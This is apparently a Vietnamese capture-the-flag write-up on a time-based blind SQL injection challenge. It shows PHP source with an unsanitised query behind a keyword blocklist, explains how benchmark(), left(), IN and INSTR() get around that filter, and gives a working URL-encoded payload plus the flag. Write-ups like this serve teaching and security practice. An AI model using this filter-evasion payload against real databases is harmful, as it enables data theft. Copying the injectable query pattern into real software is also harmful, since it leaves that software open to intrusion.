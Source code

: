 ```php
    if (isset($_GET['pass'])) {
        $pass = $_GET['pass'];
        if (preg_match("/user|insert|ord|chr|version|len|mid|like|right|substr|exp|cur|ascii|=|and|or|0x|between|rand|convert|sleep|xml|extract|concat|info|sys|[0-9~\/\"<>!^;\\\]/i",$pass)) {
            die("no hack");
        } else {
            // $query = "SELECT flag_ne_hihi FROM flag_here;";
            $query = "SELECT pass FROM users1 where user = 'guest' and pass = '{$pass}';";
            $result = @mysqli_fetch_array(mysqli_query($conn,$query));
            if($result['pass']) {
                // echo "wtf ?";
            }
        }
    } else {
        highlight_file(__FILE__);
    }
} else {
    die ("<script>alert('Not enough stars :( min 100 stars')</script>");
}
?>
```
Đầu tiên thì `pass` là input mình sẽ được đưa thẳng vào câu query sql. dấu `'` cũng không được filter => có thể sql injection.
Sau khi thực hiện câu query thì nếu có data `pass` trả về thì sẽ không in gì cả => tới đây thì cúng đủ nhận thấy là time-base sqli.
Chủ yếu là đoạn filter ở `preg_match`. Ở đây mình đã filter hầu như gần hết các hàm có thể blind sqli, cụ thể hơn là hàm `sleep` có thể sử dụng để exploit time-base sqli. Tiếp theo đó là mình đã filter number [0-9].

Trong mysql mình cũng có thể sử dụng `benchmark` giống như `sleep` để làm delay server responses, nhưng vói điều kiện các tham số trong đó phải đủ lớn. Nếu bạn chưa hiểu có thể tìm hiểu về nó trên google để có thể hiểu rõ hơn.

`left` cũng chưa được filter nên có thể sử dụng để thay `substr`.

`in` để thay cho `= like > <`.

Điều khó là tạo số thì mình sử dụng `INSTR()`, giải thích về hàm này sơ qua đó là nó sẽ trả về vị trí của chuỗi con mình đưa vào. VD: INSTR("a","a") sẽ là 1, INSTR("ba","a") sẽ là 2 => có thể tạo số.

Giờ là đến việc tạo số đủ lớn cho `benchmark()` để có thể làm delay server responses. Ở đây mình sử dụng `pow()` với `pi()` để tạo ra số đủ lớn => ez time-base.

### Payload
```
' || left((select flag_ne_hihi from flag_here),(INSTR('a','a')))in('w')%26%26benchmark((pow(pi()%2bpi(),pi()*pi())),(INSTR('a','a')))%23
```
Khi chạy payload trên mọi người sẽ thấy server sẽ bị delay.

Mình để trong `IN` là chữ `w` vì nó là chữ cái đầu của flag và bị delay, nếu mọi người để char khác thì nó sẽ không delay lâu như vậy. Tới đây mọi người có thể viết code và brute nhé.

Flag -> `web-vkl{Wow_You_Are_Hacker_Sju_Cap}`

